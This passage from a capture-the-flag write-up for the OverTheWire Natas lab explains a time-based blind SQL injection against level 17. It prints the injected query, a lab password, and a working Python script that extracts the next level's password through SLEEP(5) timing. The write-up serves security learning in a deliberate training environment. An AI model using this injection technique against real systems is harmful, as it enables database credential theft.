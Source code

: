 Just as in natas15, this code will determine the password character by
character, until the final string is the total password.

> Password for natas17: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

### Natas17

natas17 is identical to natas15 with one key difference: all of the output from
queries is now commented out, so we can't use the output for our testing any
more. SQL has a function however that we can test for: we can add a line
**SLEEP(5)** into our sql injection (text in between {} is our injection,
X is the string to test):

```
SELECT * from users where username="{natas18" AND SUBSTRING(password,1,end)
LIKE BINARY "X" AND SLEEP(5)#}"
```

We also need to end our query with a '#'. When a query is tested with
conditions, it ends at the first FALSE condition. So in our query,
username=natas18 will always evaluate as TRUE, and for most of our guesses,
SUBSTRING(password,1,end) LIKE BINARY "X" will evaluate as FALSE - and each
query will be relatively fast.

For our correct guesses however, SUBSTRING(password,1,end) LIKE BINARY "X" will
evaluate as TRUE, and thus SLEEP(5) will be executed. As such, whenever we
correctly guess a new character, the query will take much longer, over 5
seconds.

Our code reflects our new test criteria, using the **time** module to check
how long each query takes.

```
import time
import re
import requests as req
from requests.auth import HTTPBasicAuth

i = 1
LOGIN = 'http://natas17.natas.labs.overthewire.org'
chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
passwd = ''

for i in range(1,33):
    for char in chars:
        payload = {'username':'natas18"' + 
                'AND SUBSTRING(password,1,' + str(i) + ')' +
                ' LIKE BINARY"' + passwd + char + '" AND SLEEP(5)#'} 
        start_time = time.time()
        r = req.post(LOGIN, auth=HTTPBasicAuth('natas17',
            '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'), data=payload)
        if (time.time() - start_time > 5):
            passwd += char
            print (passwd)
            i += 1
            break
```
